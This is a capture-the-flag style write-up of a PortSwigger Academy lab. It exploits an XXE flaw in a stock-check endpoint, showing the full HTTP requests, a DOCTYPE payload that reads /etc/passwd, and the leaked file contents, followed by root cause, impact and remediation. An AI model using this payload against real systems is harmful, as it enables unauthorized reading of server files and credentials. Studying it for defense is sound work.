

# PortSwigger Lab: Exploiting XXE using external entities to retrieve files

# TAGS: XXE, XML External Entity, File Retrieval, Burp Suite, Repeater

Category: XXE
Date: September 28, 2026
Day: Monday
Link: https://portswigger.net/web-security/xxe/lab-exploiting-xxe-to-retrieve-files
Published: Ready
Status: Done

---

## Introduction

In this lab, the "Check stock" feature parses XML input and reflects unexpected values in the response. I show how I injected an XML external entity to make the parser read the `/etc/passwd` file and return its contents.

This write-up covers the reconnaissance, the exploitation steps, the root cause, the real-world impact, and how to prevent it.

---

## Reconnaissance:

#### Lab Description Lookup:

This lab opens the XXE vulnerabilities section. Its description says that the application has a stock check function that is vulnerable to XXE attacks.

With Burp running, I navigated through the lab, which is a store. I chose a random product to check the stock function.



I found the POST request from the stock check function and sent it to Repeater.

```http
POST /product/stock HTTP/2
Host: 0aa0000d0469f22982d74c4400fb0069.web-security-academy.net
Cookie: session=7F6xDKmjl4Sr35o9zxOykMR7cGZ1HOkY
Content-Length: 173
Sec-Ch-Ua-Platform: "Linux"
Accept-Language: pt-BR,pt;q=0.9
Sec-Ch-Ua: "Chromium";v="151", "Not=A?Brand";v="99"
Content-Type: application/xml
Sec-Ch-Ua-Mobile: ?0
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/151.0.0.0 Safari/537.36
Accept: */*
Origin: https://0aa0000d0469f22982d74c4400fb0069.web-security-academy.net
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: https://0aa0000d0469f22982d74c4400fb0069.web-security-academy.net/product?productId=1
Accept-Encoding: gzip, deflate, br
Priority: u=1, i

<?xml version="1.0" encoding="UTF-8"?>
<stockCheck>
    <productId>1</productId>
    <storeId>1</storeId>
</stockCheck>
```

It has some XML code where I can try to define an external entity as a payload.

---

## Exploitation:

#### Step 1: Define an external entity to access /etc/passwd

After sending the request to Repeater, I added the following payload, which creates an external entity called `xxe` (it could be any other name):

```xml
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
```

So, I sent the request again:

```http
POST /product/stock HTTP/2
Host: 0aa0000d0469f22982d74c4400fb0069.web-security-academy.net
Cookie: session=7F6xDKmjl4Sr35o9zxOykMR7cGZ1HOkY
Content-Length: 173
Sec-Ch-Ua-Platform: "Linux"
Accept-Language: pt-BR,pt;q=0.9
Sec-Ch-Ua: "Chromium";v="151", "Not=A?Brand";v="99"
Content-Type: application/xml
Sec-Ch-Ua-Mobile: ?0
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/151.0.0.0 Safari/537.36
Accept: */*
Origin: https://0aa0000d0469f22982d74c4400fb0069.web-security-academy.net
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: https://0aa0000d0469f22982d74c4400fb0069.web-security-academy.net/product?productId=1
Accept-Encoding: gzip, deflate, br
Priority: u=1, i

<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<stockCheck>
    <productId>&xxe;</productId>
    <storeId>1</storeId>
</stockCheck>
```

I also changed the `productId` value to the entity reference (`&xxe;`).

Although it returns a 400 response, it is followed by the contents of `/etc/passwd`:

```http
HTTP/2 400 Bad Request
Content-Type: application/json; charset=utf-8
X-Frame-Options: SAMEORIGIN
Content-Length: 2340

"Invalid product ID: root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
peter:x:12001:12001::/home/peter:/bin/bash
carlos:x:12002:12002::/home/carlos:/bin/bash
user:x:12000:12000::/home/user:/bin/bash
elmer:x:12099:12099::/home/elmer:/bin/bash
academy:x:10000:10000::/academy:/bin/bash
messagebus:x:101:101::/nonexistent:/usr/sbin/nologin
dnsmasq:x:102:65534:dnsmasq,,
```

The server expanded the external entity and reflected the file contents in the "Invalid product ID" message. I submitted the lab and it was solved.

---

## Root Cause

The application parses XML input from the user and the parser has external entity resolution enabled. Because I control the `DOCTYPE`, I can declare an entity whose `SYSTEM` identifier points to `file:///etc/passwd`. When the parser resolves `&xxe;` inside `productId`, it reads the local file and includes its contents in the response.

---

## Impact

An attacker can read local files from the server (and, in other XXE variants, perform SSRF, port scanning, or exfiltrate data out-of-band). On a real application this can expose credentials, source code, and configuration files, and can be a first step toward full server compromise.

---

## Remediation

To prevent this issue, applications should:

- Disable external entity and DTD processing in the XML parser (e.g. `disallow-doctype-decl` / `FEATURE_SECURE_PROCESSING`);
- Prefer simpler formats like JSON when XML is not required;
- Keep XML parser libraries up to date;
- Validate and sanitize XML input, and run the service with least privileges.

---

## Key Takeaways

1. XXE happens when a parser resolves external entities from user-controlled XML.
2. A `SYSTEM` entity with a `file://` URI can read local files.
3. Data can leak even through an error message (here, "Invalid product ID").
4. Disabling DTDs/external entities is the main defense.

---

## References

- [PortSwigger — XML external entity (XXE) injection](https://portswigger.net/web-security/xxe)
- [PortSwigger — Exploiting XXE using external entities to retrieve files (lab)](https://portswigger.net/web-security/xxe/lab-exploiting-xxe-to-retrieve-files)
- [PortSwigger — XML entities](https://portswigger.net/web-security/xxe/xml-entities)
- [OWASP — XML External Entity (XXE) Processing](https://owasp.org/www-community/vulnerabilities/XML_External_Entity_(XXE)_Processing)

---

## Disclaimer

This write-up was created for educational purposes only. All testing was performed in an authorized PortSwigger Web Security Academy laboratory environment. Never test systems without explicit authorization.

This article was written with the assistance of artificial intelligence tools for text review, structure, and grammar correction. However, the entire testing process, technical analysis, vulnerability exploitation, and conclusions presented are the sole responsibility of the author and are based on tests performed in a controlled environment provided by the PortSwigger Web Security Academy.
